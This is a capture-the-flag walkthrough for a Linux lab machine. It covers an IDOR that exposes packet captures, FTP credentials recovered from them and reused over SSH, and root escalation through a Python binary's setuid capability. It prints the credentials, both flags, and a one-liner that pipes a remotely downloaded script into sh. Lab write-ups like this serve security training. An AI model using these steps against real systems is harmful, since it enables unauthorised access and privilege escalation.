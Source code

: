﻿# ENUMERATION
---

## OPEN PORTS
---


| PORT | SERVICE |
| :--- | :------ |
| 21 | ftp |
| 22 | ssh |
| 80 | http |

We have three open ports, let's begin with reconnaissance.

# RECONNAISSANCE
---
![Pasted image 20250107160531.png](../../IMAGES/Pasted%20image%2020250107160531.png)

This is the standard page, we have `Dashboard`, `Security Snapshot` `Ip Config` `Network Status`, let's check each of those:

![Pasted image 20250107160748.png](../../IMAGES/Pasted%20image%2020250107160748.png)

Security snapshot takes us to another URL, if we click download, we are able to get a `7.pcap` file, if we use wireshark to analyze that, it's empty, so, let's keep searching in order to find anything useful:

![Pasted image 20250107161541.png](../../IMAGES/Pasted%20image%2020250107161541.png)

We have an Ip section, nothing rare, let's keep searching:

![Pasted image 20250107161617.png](../../IMAGES/Pasted%20image%2020250107161617.png)

Also a netstat section, nothing seems off too, 

```ad-hint

That's when I realized that when we enter the security snapshot section, we get redirected to a `/data/number` URL, so, I thought that if an IDOR vulnerability is there on the website, we may be able to read another scans, I used burp and it was indeed true, that's when I got that scan `5` had the following:



Now we have packets to read! Let's download the file and analyze it with wireshark:


```


# EXPLOITATION
---


Nothing useful came from this. That's when I kept searching and found the `/data/0` file, let's analyze it:

![Pasted image 20250107163040.png](../../IMAGES/Pasted%20image%2020250107163040.png)

We found something useful!

A ftp string, let's follow it:

![Pasted image 20250107163123.png](../../IMAGES/Pasted%20image%2020250107163123.png)

Nice, we got some credentials, let's log into `nathan` user:

```ad-note
`nathan`: `Buck3tH4TF0RM3!`
```

![Pasted image 20250107163428.png](../../IMAGES/Pasted%20image%2020250107163428.png)

We got access, we can see a `user.txt` flag, let's get it and read it:

![Pasted image 20250107163514.png](../../IMAGES/Pasted%20image%2020250107163514.png)

User flag is `f763e899654614af8d5f2e6a886516a0`

I thought than since that password works for ftp, some users tend to have the same password in different services, so, let's try to log into ssh with those credentials:

![Pasted image 20250107163700.png](../../IMAGES/Pasted%20image%2020250107163700.png)

I was right, let's proceed with privilege escalation.

# PRIVILEGE ESCALATION
---

We can not use sudo on this machine with nathan user:

![Pasted image 20250107163815.png](../../IMAGES/Pasted%20image%2020250107163815.png)


Let's use linpeas in this machine and check what it got for us:

![Pasted image 20250107164042.png](../../IMAGES/Pasted%20image%2020250107164042.png)

We can use curl in the machine, so, we can perform: `curl -L https://github.com/peass-ng/PEASS-ng/releases/latest/download/linpeas.sh | sh`

![Pasted image 20250107164142.png](../../IMAGES/Pasted%20image%2020250107164142.png)

Nice, when linpeas finishes, we can see the following:

![Pasted image 20250107164513.png](../../IMAGES/Pasted%20image%2020250107164513.png)

This is the binary we'll use in order to perform PE, I asked chatgpt and it said we must do the following steps:

```ad-summary
1. `/usr/bin/python3.8`
2. `import os`
3. `os.setuid(0)` (As this is root ID)
4. `os.system("bash")`

#### PoC
----

We can also see this procedure in Gtfobins:


```

Just like that, CTF is done, let's read root flag and submit it:

![Pasted image 20250107165111.png](../../IMAGES/Pasted%20image%2020250107165111.png)

Root: `bb58eed72cb4312008e7262c59c17d7b`

Gg!

